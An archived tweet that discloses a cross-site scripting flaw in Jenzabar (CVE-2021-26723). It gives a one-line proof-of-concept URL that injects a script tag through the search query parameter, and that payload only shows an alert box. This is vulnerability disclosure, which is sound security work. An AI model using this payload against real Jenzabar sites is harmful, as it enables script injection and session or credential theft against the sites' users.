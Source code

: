 
# sec715
**https://twitter.com/sec715/status/1358440787843772417 _at 2021-02-07 15:41:37_**
<blockquote>
XSS in Jenzabar (CVE-2021-26723)

POC:
/ics?tool=search&amp;query="&gt;&lt;script&gt;alert('xss')&lt;/script&gt;

#XSS https://t.co/YWRVQjP6Dg
</blockquote>


<table><tr>